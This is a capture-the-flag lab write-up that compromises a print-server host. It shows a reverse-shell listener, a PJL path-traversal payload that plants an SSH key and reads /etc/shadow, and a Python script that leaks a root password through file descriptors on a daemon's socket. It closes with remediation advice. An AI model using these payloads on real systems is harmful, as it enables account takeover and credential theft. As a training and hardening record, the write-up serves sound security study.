






# Paperwork — Penetration Test Writeup

### From Print-Spooler Foothold to Domain-Level Root

| | |
|---|---|
| **Target Host** | 10.129.5.34 ("Paperwork") |
| **Attacker Host** | 10.10.16.70 |
| **Engagement Type** | Boot2root lab — black-box |
| **Difficulty** | Medium |
| **Result** | Full compromise — `user.txt` and `root.txt` captured |
| **Pwn Date** | 6 August 2026 |
| **Author** | MOGS1 |

This document details the complete attack chain used to compromise the "Paperwork" lab host, from an already-established low-privilege shell through to full root access. The primary vulnerability exploited is an arbitrary file write in a printer-management service that speaks HP's Printer Job Language (PJL), which was used to plant an SSH key for a secondary user. Privilege escalation to root was then achieved by abusing a Unix domain management socket that leaks file descriptors — and ultimately an administrative credential — via `SCM_RIGHTS` ancillary data.

---

## 1. Executive Summary

The engagement targeted a single lab host, "Paperwork," running a custom print-server stack. A foothold as the low-privileged service account `lp` had already been obtained via a vulnerable listener on TCP/1515 prior to the steps documented below (a custom Line Printer Daemon implementation, `server.py`, running under `/opt/LPDServer`).

From that foothold, enumeration of locally listening services revealed a raw JetDirect-style printing port (TCP/9100) that accepted PJL control commands. PJL's `FSDOWNLOAD` command was abused via directory traversal to write an SSH public key into a second user's (`archivist`) `authorized_keys` file, yielding SSH access and the user flag.

As `archivist`, a Unix domain socket at `/run/paperwork/mgmt.sock` was found to belong to a background "daemon" process. By connecting to the socket and issuing a `recvmsg()` call with `SCM_RIGHTS` ancillary-data support, file descriptors opened by the privileged daemon were captured directly into the exploiting process — bypassing normal filesystem permissions. Enlarging the ancillary-data buffer surfaced additional file descriptors, one of which contained a plaintext administrative password. This credential was valid for the root account via `su`, completing the compromise.

### Key Findings

- Print-management service on TCP/9100 accepts unauthenticated PJL `FSDOWNLOAD`/`FSUPLOAD` jobs with insufficient path sanitisation, enabling arbitrary file write (and read) as the service user.
- SSH key-based authentication was enabled for the `archivist` account with a path reachable through the above traversal, allowing full account takeover without credentials.
- A privileged local IPC channel (`/run/paperwork/mgmt.sock`) passes open file descriptors to any connecting local process without authenticating the peer, leaking sensitive file contents including an administrative password.
- The leaked password was reused for the local root account, allowing a straightforward `su root` privilege escalation.

---

## 2. Scope, Methodology & Host Fingerprint

Testing followed a standard black-box methodology: enumerate reachable services, identify a foothold, escalate horizontally/vertically, and capture the user and root flags used to validate full compromise.

| Attribute | Value |
|---|---|
| Operating System | Ubuntu 25.10 (GNU/Linux 6.17.0-40-generic, x86_64) |
| Foothold user | `lp` (service account for the line-printer daemon) |
| Pivot user | `archivist` (uid=1000, gid=1000, `/bin/bash`) |
| Privileged user | `root` |

---

## 3. Enumeration From the Initial Foothold

After stabilising the initial shell (see §4), the attacking session enumerated the local account database and the service's listening sockets to map the internal attack surface that wasn't reachable from outside the host.

```
lp@paperwork:/opt/LPDServer$ cat /etc/passwd | grep -E "lp|archivist"
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
archivist:x:1000:1000:archivist:/home/archivist:/bin/bash

lp@paperwork:/opt/LPDServer$ ls -la /home/archivist
ls: cannot open directory '/home/archivist': Permission denied
```

A direct filesystem path to `archivist`'s home directory was blocked by permissions, so the next step examined which local services were reachable from the `lp` context:

```
lp@paperwork:/opt/LPDServer$ ss -lntp
State   Recv-Q Send-Q Local Address:Port    Peer Address:Port  Process
LISTEN  0      511    0.0.0.0:80             0.0.0.0:*
LISTEN  0      4096   0.0.0.0:22              0.0.0.0:*
LISTEN  0      128    127.0.0.1:1337          0.0.0.0:*
LISTEN  0      4096   127.0.0.53%lo:53        0.0.0.0:*
LISTEN  0      100    127.0.0.1:9100          0.0.0.0:*    users:(("python3",pid=984,fd=3))
LISTEN  0      100    0.0.0.0:1515            0.0.0.0:*
LISTEN  0      4096   127.0.0.54:53           0.0.0.0:*
LISTEN  0      4096   [::]:22                 [::]:*
```

The standout entry is a `python3` process bound to loopback port 9100 — the conventional raw/JetDirect printing port. Combined with the box's printing theme (`LPDServer`, spool paths) this strongly suggested a PJL-speaking print-management daemon that could be reached and driven from the `lp` shell.


*Reverse shell caught on 443, upgraded to a full TTY, and initial enumeration of `/etc/passwd` and listening ports — port 9100 (PJL/JetDirect) and port 1515 (LPD) stand out.*

### Ports & Services Identified

| Port | Service | Notes |
|---|---|---|
| 22/tcp | OpenSSH | Standard remote administration |
| 53 | DNS (systemd-resolved, 127.0.0.53) | Local stub resolver — not externally exposed |
| 80/tcp | HTTP | Web front-end |
| 127.0.0.1:1337/tcp | Internal service | Loopback-only, purpose not investigated |
| 1515/tcp | Custom LPD-style listener | Entry point for the initial foothold (`server.py`) |
| 9100/tcp | Raw / JetDirect print service (python3, pid 984) | Accepts PJL commands — key to the privilege pivot |

---

## 4. Shell Stabilisation

The initial reverse shell was caught on the attacker host with a standard netcat listener and then upgraded to a fully interactive TTY using the classic pty/stty technique so that shell job control, tab-completion, and Ctrl-C worked normally for the rest of the engagement:

```
┌─(kali㉿kali)-[~/Downloads]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.70] from (UNKNOWN) [10.129.5.34] 33292
lp@paperwork:/opt/LPDServer$ python3 -c 'import pty; pty.spawn("/bin/bash")'
lp@paperwork:/opt/LPDServer$ script /dev/null -c /bin/bash
^Z
zsh: suspended  nc -nvlp 443

┌─(kali㉿kali)-[~/Downloads]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 443

lp@paperwork:/opt/LPDServer$ export TERM=xterm-256color
```

---

## 5. Lateral Movement — PJL Arbitrary File Write

HP's Printer Job Language (PJL) defines a virtual filesystem accessible through commands such as `@PJL FSDOWNLOAD` (write) and `@PJL FSUPLOAD` (read). Implementations that fail to canonicalise the `NAME=` path allow directory-traversal sequences (`../`) to escape the intended spool directory and touch arbitrary files on disk with the privileges of the printing service. The python3 process on port 9100 implemented this protocol without adequate path restriction.

The attack plan was to have the PJL service — running with access to `/home/archivist` — write our own SSH public key into `archivist`'s `authorized_keys` file, granting passwordless SSH access.

### 5.1 Crafting the PJL Payload

A local RSA keypair was generated, and a PJL job was constructed embedding the traversal path and the public key content:

```
lp@paperwork:/opt/LPDServer$ cat << 'EOF' > /tmp/pjl_exploit.txt
@PJL FSDOWNLOAD NAME="0:/../../home/archivist/.ssh/authorized_keys" SIZE=740
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDeZQAo9IKxhrH75F3D96OA0gKp7qBH9mCH+X/6DPvnJGHAj+oQdwJ
wbravFrsG6aX78E+h+Aue287mkml9yt77R8Fv1TTJOE63b9V3BT2/dVMuFo701N2N0kJImuynXICbYUQ7xqdA0zsmQJPt
aGQB9Y/GbkyxVJTiju7uZVnK03g08f/2Cd+ZwuzzBuIcbzyQVpQN2OvzrtlnbIuP/QLqwTQusScSsOS7YEbcOh2NMscPj
z1J/W5NqIDKqShvdHO4AapEoc1sqqzhu6d1A+5sh90unb2KmmJkTzBn5s2J3xLDOTbd9QmG2XmOdIYowTe94KicoG0yGc
K+y4oXBcGHz2nyphRs+5RiEBci6vLeC6BAvUHK7cjGAspze9W1J6bmJ2WDFUYI/pUY64EdiSBl/jqp4btEmxoQ3s/YgXz
8yXDJSjBVzZEvp13t/t5b8cazkYG2pdOD4tmRrphnKeWO567mmHvqzadgvhk0Ji6lFeJtyQuUwHCbfb2Ia62w91WmzvOm
e9AvQDyLTup7zGtiDb+1eN92oTus1Mcwjwro6npAWt/nxb7QSg56Fl6ogg7IhxB3vlQllG6avNcC+5woDsWgzlpNS0tTk
n/3DGD9cf+zxNTLFpjMaBSMS/E46WlwmtzdqxEF8kq9rpJpX5+crCu44bpLCAC1L8I3jPDfYQ== kali@kali
EOF
```


*Building `/tmp/pjl_exploit.txt` with a heredoc — the `FSDOWNLOAD NAME="0:/../../home/archivist/.ssh/authorized_keys"` line is the path-traversal write primitive.*

Verifying the traversal target from the `lp` shell confirmed the correct user context before sending the job over the network:

```
lp@paperwork:/opt/LPDServer$ cat /etc/passwd | grep -E "lp|archivist"
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
archivist:x:1000:1000:archivist:/home/archivist:/bin/bash
```

### 5.2 Delivering the Job

A short Python delivery script (`exploit.py`) opened a TCP connection to the target's exposed LPD-style listener on port 1515, which internally forwards jobs to the PJL processor on 9100, and streamed the crafted job:

```
┌─(kali㉿kali)-[~/Downloads/paperwork_extract]
└─$ python3 exploit.py
[*] Sending payload to 10.129.5.34:1515 ...
[+] Payload sent! Check your netcat listener.

┌─(kali㉿kali)-[~/Downloads/paperwork_extract]
└─$ ssh-keygen -t rsa -b 4096 -f ~/Downloads/paperwork_key -N ""
Generating public/private rsa key pair.
Your identification has been saved in /home/kali/Downloads/paperwork_key
Your public key has been saved in /home/kali/Downloads/paperwork_key.pub
```


*Sending the crafted PJL job to `10.129.5.34:1515` and generating the `paperwork_key` RSA keypair whose public half was embedded in the payload.*

A local sanity check — replaying the same job straight at loopback port 9100 on the attacker box — correctly failed, since no PJL listener exists locally; this confirmed the payload had to be routed through the target's own `1515 → 9100` forwarding path rather than being processed client-side:

```
┌─(kali㉿kali)-[~]
└─$ cat /tmp/pjl_exploit.txt | nc 127.0.0.1 9100
(UNKNOWN) [127.0.0.1] 9100 (?) : Connection refused
```


*Re-checking `pjl_exploit.txt` and confirming the payload only makes sense when routed through the target — a local `nc` test to loopback 9100 is refused since no PJL service exists on the attacker box.*

---

## 6. Establishing Access as `archivist`

With the public key written to `archivist`'s `authorized_keys` via the PJL write primitive, SSH access was attempted using the matching private key:

```
┌─(kali㉿kali)-[~]
└─$ ssh -i ~/Downloads/paperwork_key archivist@10.129.5.34
Welcome to Ubuntu 25.10 (GNU/Linux 6.17.0-40-generic x86_64)
archivist@paperwork:~$ ls
printer  user.txt
archivist@paperwork:~$ cat user.txt
6a4f8c6b26ab73d4ea223ed38c7d138a
```

> **🚩 User Flag:** `6a4f8c6b26ab73d4ea223ed38c7d138a`

---

## 7. Privilege Escalation — Leaking Root Credentials via Unix Socket

Inside `archivist`'s home directory sat a `printer/` entry pointing at management tooling for the same paperwork print stack. Investigation turned up a Unix domain socket owned by a background daemon:

```
archivist@paperwork:~$ /run/paperwork/mgmt.sock
-bash: /run/paperwork/mgmt.sock: Permission denied
archivist@paperwork:~$ cd /run/paperwork/mgmt.sock
-bash: cd: /run/paperwork/mgmt.sock: Not a directory
```

Direct filesystem access to the socket's target files was denied, but the socket itself was connectable. On Unix domain sockets, a process can pass open file descriptors to a peer as `SCM_RIGHTS` ancillary data via `sendmsg()`/`recvmsg()` — the receiving process gains a usable file descriptor regardless of its own filesystem permissions on the underlying file. A short inline Python one-liner was used to connect and receive any descriptors the daemon offered:

```python
import socket, array, os
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")
fds = array.array("i")
msg, ancdata, flags, addr = s.recvmsg(1024, socket.CMSG_LEN(fds.itemsize * 5))
print("[+] Message from Daemon:", msg.decode(errors="ignore"))
fds.frombytes(ancdata[0][2])
fd = fds[0]
os.lseek(fd, 0, 0)
print("\n[+] RECOVERED PRIVILEGED DATA:\n", os.read(fd, 4096).decode(errors="ignore"))
```

```
[+] Message from Daemon: ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.

[+] RECOVERED PRIVILEGED DATA:
 Listening on port 9100
 Listening on port 9100
 ... (repeated log lines) ...
```


*Logging in with the planted key, reading `user.txt`, and the first pass at leaking file descriptors from `/run/paperwork/mgmt.sock` — this attempt recovered log data but no descriptors.*

This first pass proved the descriptor-leak primitive worked — it returned a slice of the daemon's own connection log — but the ancillary-data buffer was only sized for a single descriptor, and this particular exchange carried none (`Recovered FDs: []`). An initial guess at reusing this access via `su root` failed twice:

```
archivist@paperwork:~$ su root
Password:
su: Authentication failure
archivist@paperwork:~$ su root
Password:
su: Authentication failure
```

### 7.1 Triggering the Daemon and Enlarging the Capture Buffer

Two refinements were made. First, the PJL processor on port 9100 was nudged directly with a `FSUPLOAD` request against `/etc/shadow`, prompting the daemon to open a sensitive file and log the attempt — generating fresh activity for the management socket to report on:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9100))
s.sendall(b'@PJL FSUPLOAD NAME="0:/../../etc/shadow" OFFSET=0 SIZE=100\n')
s.close()
```

Second, the `recvmsg()` call against `mgmt.sock` was re-issued with a buffer sized for **ten** descriptors instead of one, and iterated over every `SCM_RIGHTS` control message returned rather than assuming a single one:

```python
import socket, array, os
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")
fds = array.array("i")
msg, ancdata, flags, addr = s.recvmsg(1024, socket.CMSG_LEN(fds.itemsize * 10))
print("[+] Message:", msg.decode(errors="ignore"))

fds_list = []
for cmsg_level, cmsg_type, cmsg_data in ancdata:
    if cmsg_level == socket.SOL_SOCKET and cmsg_type == socket.SCM_RIGHTS:
        fds_list.extend(array.array("i", cmsg_data[:len(cmsg_data) - (len(cmsg_data) % fds.itemsize)]))
print("[+] Recovered FDs:", fds_list)

for fd in fds_list:
    print(f"\n— Content of FD {fd} —\n", os.pread(fd, 4096, 0).decode(errors="ignore"))
```

```
[+] Message: ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.
[+] Recovered FDs: [4, 5]

— Content of FD 4 —
 [127.0.0.1] connected
 Command: @PJL FSUPLOAD NAME="0:/../../etc/shadow" OFFSET=0 SIZE=100

— Content of FD 5 —
 ADMIN_PASSWORD=ApparelMortuaryCedar22
```

Enlarging the ancillary-data buffer was enough for the kernel to deliver two descriptors that the daemon had open at the time: one mapped to its own connection log (FD 4, echoing the `FSUPLOAD` attempt against `/etc/shadow`), and a second (FD 5) mapped to a configuration or credentials file containing a plaintext administrative password. Because the daemon runs with elevated privileges, the descriptors it passes are opened with *its* privileges — not the connecting client's — which is precisely what allowed an unprivileged `archivist` process to read a root-owned secret it could never open directly.

---

## 8. Root Access

The recovered credential was immediately tested against the local root account and succeeded:

```
archivist@paperwork:~$ su root
Password: ApparelMortuaryCedar22
root@paperwork:/home/archivist# ls
printer  user.txt
root@paperwork:/home/archivist# cat /root/root.txt
a8a2bb28a23778b5572a3684fae77a48
```


*Buffer-size fix reveals FDs `[4, 5]` — FD 5 contains `ADMIN_PASSWORD=ApparelMortuaryCedar22`, which authenticates `su root` and yields `root.txt`.*

> **🚩 Root Flag:** `a8a2bb28a23778b5572a3684fae77a48`

The engagement platform confirmed full completion of the box, awarding 585 XP for the solve.


*Official solve confirmation — machine rank #5225, pwned 06 Aug 2026, 585 XP earned.*

---

## 9. Attack Chain Summary

1. **Foothold:** a vulnerable custom LPD listener (`server.py`, TCP/1515) yielded a reverse shell as `lp`.
2. **Enumeration:** `ss -lntp` exposed a loopback PJL/JetDirect service on TCP/9100 run by the same print stack.
3. **Lateral movement:** PJL `FSDOWNLOAD` path traversal wrote an attacker SSH key into `archivist`'s `authorized_keys`, delivered by relaying the job through the externally reachable TCP/1515 listener.
4. **Foothold #2:** SSH as `archivist` using the planted key; `user.txt` captured.
5. **Privilege escalation:** a privileged management daemon's Unix socket (`/run/paperwork/mgmt.sock`) leaked open file descriptors via `SCM_RIGHTS`; enlarging the `recvmsg()` buffer surfaced a descriptor pointing at a file containing the root/admin password.
6. **Root:** the leaked password authenticated `su root`; `root.txt` captured, completing the compromise.

---

## 10. Remediation Recommendations

### 10.1 PJL / Print Service
- Canonicalise and validate all `NAME=` paths received in `FSDOWNLOAD`/`FSUPLOAD`/`FSDIRLIST` jobs; reject any path containing traversal sequences or resolving outside the designated spool directory.
- Require authentication before accepting PJL filesystem commands, and run the print-processing service as a dedicated low-privilege account with no access to user home directories.
- Do not expose the raw JetDirect port (9100) or the LPD-compatible listener (1515) without network-layer access controls; restrict to trusted management subnets.

### 10.2 SSH / Account Hardening
- Restrict write access to `~/.ssh/authorized_keys` so that no service account can modify another user's key material, regardless of any application-layer bug.
- Monitor `authorized_keys` files for unexpected modification (e.g. via file-integrity monitoring or `auditd` watches).

### 10.3 Local IPC / Management Daemon
- Authenticate and authorise peers on `/run/paperwork/mgmt.sock` (e.g. `SO_PEERCRED` checks against a UID allow-list) before responding to any request or passing file descriptors.
- Never transmit file descriptors for sensitive files (credential stores, `/etc/shadow`, configuration secrets) over an IPC channel reachable by unprivileged local users.
- Remove plaintext administrative passwords from any file the daemon can be tricked into exposing; use a secrets manager or a root-only, non-forwardable credential store.
- Restrict the socket's filesystem permissions (mode `0600`, owned by a dedicated service group) so only intended clients can connect at all.

---

## 11. Conclusion

The Paperwork host was fully compromised end-to-end starting from an already-obtained low-privilege shell. The chain illustrates two related but distinct classes of issue common in custom network-service implementations: insufficient path validation in a legacy protocol handler (PJL), and an overly trusting local IPC surface that conflates "reachable by any local user" with "authorised." Both findings map directly to well-understood hardening controls — strict path canonicalisation and peer authentication on IPC channels — and remediating either one independently would have broken this specific attack chain.
